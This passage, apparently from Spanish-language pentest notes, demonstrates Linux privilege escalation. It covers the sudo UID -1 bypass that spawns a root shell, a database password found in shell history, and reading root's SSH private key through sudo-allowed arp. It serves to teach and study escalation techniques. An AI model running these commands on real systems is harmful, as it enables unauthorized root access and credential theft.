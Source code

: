 Funciona como se espera gracias al fichero sudoers, con www-data:

``` bash
user@debian:~/tools/exim$ sudo -u www-data whoami
www-data
```

Funciona correctamente. Utilizando UIDs en vez del nombre:

``` bash
user@debian:~/tools/exim$ sudo -u#0 whoami  
[sudo] password for user: 
Sorry, user user is not allowed to execute '/usr/bin/whoami' as root on debian.localdomain.

user@debian:~/tools/exim$ sudo -u#33 whoami 
www-data
```

Funciona tambien como se espera, pero mediante el UID -1:

``` bash
user@debian:~/tools/exim$ sudo -u#-1 whoami
root
```

Asi que ahora seria tan simple como:

``` bash
user@debian:~/tools/exim$ sudo -u#-1 bash  
root@debian:/home/user/tools/exim# 
```

---
## Escalada por errores de usuario

Otro ejemplo mucho mas simple de contraseñas filtradas seria ver el historial, en este caso con el comando history podemos ver:

``` bash
    4  mysql -h somehost.local -uroot -ppassword123
```

Que ademas, el historial se escribe en .bash_history en home/user cuando se cierra sesion. Esto puede ser especialmente problematico si la empresa tiene SIEM porque los tecnicos podran ver la contraseña.

---
## Escalada por lectura de ficheros arbitraria mediante sudoers

Otra opcion seria ver si exiten claves SSH expuestas para acceder al sistema, ademas, si se consigue, aunque el usuario cambie la contraseña seguimos teniendo persistencia ya que la clave privada no cambia.

Si por ejemplo podemos utilizar el comando arp como root podemos leer ficheros con:

``` bash
sudo arp -v -f "/root/.ssh/id_rsa"
```
